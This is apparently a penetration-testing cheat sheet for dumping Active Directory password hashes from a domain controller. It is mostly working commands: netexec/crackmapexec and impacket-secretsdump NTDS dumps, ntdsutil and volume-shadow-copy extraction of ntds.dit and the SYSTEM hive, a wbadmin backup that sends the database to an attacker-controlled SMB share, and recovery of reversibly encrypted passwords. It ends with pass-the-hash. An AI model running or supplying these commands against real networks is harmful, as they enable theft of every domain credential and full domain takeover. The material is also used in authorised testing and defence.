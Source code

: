 # Dump NTDS from Domain Controller

## Tools: CrackMpaExec/Netexec , secretsdump , ntdsutil , metasploit , certsync

 - netexec smb DC_IP -u USER -p PASSWORD -d DOMAIN --ntds

 - impacket-secretsdump 'DOMAIN/USER:PASSWORD'@IP

 - windows/gather/credentials/domain_hashdump (Metasploit)

 - certsync -u USER -p PASSWORD -d DOMAIN -dc-ip DC_IP -ns NAMESERVER_IP

### NTDSUtil

 - ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q (On the DC)

 - impacket-secretsdump -ntds NTDS_FILE.dit -system SYSTEM_FILE -hashes LMHASH:NTHASH LOCAL -outputfile ntlm-extract

### With these techniques you can move everywhere within the entire domain, as well as possibly compromise the Enterprise Admin (in this case it's game over)

# DUMP DOMAIN CONTROLLER HASHES LOCALLY WITH NTDSUTIL

## required files: 

### 1) C:\windows\NTDS\ntds.dit

### 2) C:\windows\system32\config\SYSTEM

### 3) C:\windows\system32\config\SECURITY

## Locating the ntds custom location: reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"

#### 1) 

    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#### 2) Transfer them to attacking machine

#### 3) 

    python3 Impacket-Secretsdump.py -security /path/to/SECURITY -system /path/to/SYSTEM -ntds path/to/ntds.dit local

# DUMP DOMAIN CONTROLLER HASHES WITH WBADMIN

#### 1) Create an new user that maches the "force user" parameter in the /etc/samba/smb.conf file:

#### 

    adduser smbuser

#### 

    smbpasswd -a smbuser

#### 

    sudo service smbd restart 

#### 2) Mount the share

    net use k: \\OUR_IP\SHARE /user:smbuser smbpass 

#### 3) Backup NTDS folder

    echo "Y" | wbadmin start backup -backuptarget:\\OUR_IP\SHARE -include:c:\windows\ntds 

#### 4) Retrieve the version of the backup

    sbadmin get versions 

#### 5) Restore the NTDS file, specifying the backup version

    echo "Y" | wbadmin start recovery -version:10/01/2020-14:23 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl 

#### 6) Export the system hive

    reg save HKLM\SYSTEM C:\system.hive 

#### 7) Transfer the ntds.dit file to our share

    cp ntds.dit \\OUR_IP\SHARE\NTDS.dit

#### 8) Transfer the system hive to our share

    cp system.hive \\OUR_IP\\SHARE\system.hive

#### 9) Dump hashes from NTDS

    impacket-secretsdump -ntds NTDS.dit -system system.hive LOCAL

#### 10) Do a Pass-the-Hash attack with wmiexec/smbexec/psexec or evil-winrm 

#### 11) PROFIT

# CRACKMAPEXEC

#### 1) 

    crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds

#### 2) 

    crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi

#### 3) 

    crackmapexec smb 10.10.0.202 -u username -p password --ntds vss

# VOLUME SHADOW COPY (VSS)

#### 1) 

    vssadmin create shadow /for=C:

#### 2) 

    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy

#### 3) 

    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy

# NTDS Reversible Encryption

### UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED (0x00000080), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

### The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin. This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

#### 1) List users with "Store passwords using reversible encryption" enabled

    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

### The password retrieval is already handled by SecureAuthCorp/secretsdump.py and mimikatz, it will be displayed as CLEARTEXT.

